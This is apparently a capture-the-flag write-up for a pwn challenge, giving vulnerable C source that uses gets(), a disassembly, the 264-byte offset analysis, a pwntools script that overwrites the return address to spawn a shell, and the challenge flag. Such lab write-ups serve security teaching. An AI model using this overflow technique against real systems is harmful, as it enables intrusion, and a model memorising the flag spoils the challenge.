


# Overflow in the fl4gtory
<p align="center">
  
</p>

## FLAG:
`GPNCTF{M0re_0verf0ws_ar3_c0ming_:O}`

## Solution
The challenge provides the following source code in the [attachment](Attachments/overflow-in-the-fl4gtory.tar.gz):

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflow-in-the-fl4gtory overflow-in-the-fl4gtory.c

void shutoff() {
	printf("Pipe shut off!\n");
	printf("Congrats! You've solved (or exploited) the overflow! Get your flag:\n");
	execve("/bin/sh", NULL, NULL);
}


int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

The program is very simple as it uses `gets` and `puts` to fill and print a limited size buffer. The problem consists in the fact that no checks are made on the input that is inserted, this leads to the possibility of overloading the buffer by altering the stack and thus controlling the execution flow. The purpose of the challenge is to exploit the *buffer overflow* to overwrite the return address with the address of the `shutoff` function so as to have a shell. To do this you need to figure out how many characters you need to enter before the return address is actually overwritten.

```assembly
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000401184 <+0>:     push   rbp
   0x0000000000401185 <+1>:     mov    rbp,rsp
   0x0000000000401188 <+4>:     sub    rsp,0x100
   0x000000000040118f <+11>:    lea    rax,[rbp-0x100]
   0x0000000000401196 <+18>:    mov    rdi,rax
   0x0000000000401199 <+21>:    mov    eax,0x0
   0x000000000040119e <+26>:    call   0x401050 <gets@plt>
   0x00000000004011a3 <+31>:    lea    rax,[rbp-0x100]
   0x00000000004011aa <+38>:    mov    rdi,rax
   0x00000000004011ad <+41>:    call   0x401030 <puts@plt>
   0x00000000004011b2 <+46>:    mov    eax,0x0
   0x00000000004011b7 <+51>:    leave
   0x00000000004011b8 <+52>:    ret
End of assembler dump.
```

Analyzing the decompiled code we can observe that 256 bytes (0x100) are reserved for the buffer (i.e. 255 for input + 1 null byte to identify the end of the string), to which we must add another 8 bytes to overwrite the pointer contained in the register *rbp* (Return Base Pointer). We can verify the correctness of what has been said through the use of *pwndbg* by inserting a payload of 264 and viewing the contents of the register.

<p align="center">
  
</p>

Finally, to conclude the challenge, just insert the `shutoff` address in the payload and to do this the following [script](Attachments/solve.py) was written.

```python
from pwn import *

if args.DEBUG:
    p = gdb.debug("./overflow-in-the-fl4gtory")

elif args.REMOTE:
    p = process(['ncat', '--ssl', 'overflow-in-the-fl4gtory-0.chals.kitctf.de', '1337'])
else:
    p = process("./overflow-in-the-fl4gtory")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)


exe = ELF("./overflow-in-the-fl4gtory", checksec=False)
shutoff = exe.symbols.shutoff

p.sendline(b"A" * (256 + 8) + p64(shutoff))
p.interactive()
```